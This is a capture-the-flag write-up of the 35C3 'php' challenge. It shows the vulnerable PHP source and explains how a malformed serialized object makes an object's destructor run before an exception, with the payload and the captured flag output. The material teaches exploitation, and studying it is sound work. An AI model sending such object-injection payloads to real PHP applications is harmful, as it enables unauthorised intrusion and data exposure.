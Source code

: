 ```yaml
---
layout: post
title: php
category: 35c3ctf
---
```


# php
>PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.  
>Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: `nc 35.242.207.13 1`

The tarball contains the following php code:

```php
<?php

$line = trim(fgets(STDIN));
$flag = file_get_contents('./flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);
throw new Exception('Well that was unexpected…');
echo $a;
```

and the service running at `35.242.207.13 1` verifies that it's running the above code.

```bash
➜ nc 35.242.207.13 1
test input
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

From the source code and challenge description, it's obvious this is a PHP deserialization challenge. Our goal is clear, serialize some PHP code that will force the destructor of `B` to be called, echo-ing the flag to our console, _before_ the exception is thrown.

So how exactly do you call a class destructor in PHP? Well, the destructor will be called when the all references to the object are freed or when the script terminates properly - i.e. without any thrown exceptions. Since the exception will be thrown directly after the unserialize call, we can't rely on the script properly terminating. We must call the `__destruct()` function ourselves, ensuring it's done prior the the exception.

One last thing to note before we try any exploits - the `@` symbol before `unserialize()`. For those unfamiliar, when `@` is prepended to a function, any error messages that function may produce will be completely ignored (see: [PHP Error Controls Operators](http://php.net/manual/en/language.operators.errorcontrol.php)). If we were to ignore this symbol, we may still get the flag, but not understand why we were able it.

## Solution
From our static analysis, we have a solid idea on the attack vector for this challenge. First let's verify our above analysis by creating a simple serialized object.

```bash
➜ php -a
Interactive shell

php > $flag = "35C3_test_flag_";
php > class B {
php { function __destruct() {
php { global $flag;
php { echo $flag;
php { }
php { }
php > $xpl = new B;
php > echo serialize($xpl);
O:1:"B":0:{}
php >
```
PHP serialized objects are structured as a key-value pairs. Breaking down our serialized object, we have an object `B` (of name length `1`), with `0` properties. For more information, see: [PHP Serialization](http://www.phpinternalsbook.com/classes_objects/serialization.html).

With this knowledge, we can abuse the error suppression to create and destroy an object without causing the script to terminate. By sending `@unserialize()` a bad serial, e.g. `O:1:"B":1:{}` or `O:1:"B":0:{b}`, we force the code to call `new B;` and then free the object due to a bad serial exception. The `@` symbol will force the code to ignore the exception and continue executing.

```bash
➜ php nc 35.242.207.13 1
O:1:"B":1:{}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
 thrown in /home/user/php.php on line 16
 ```
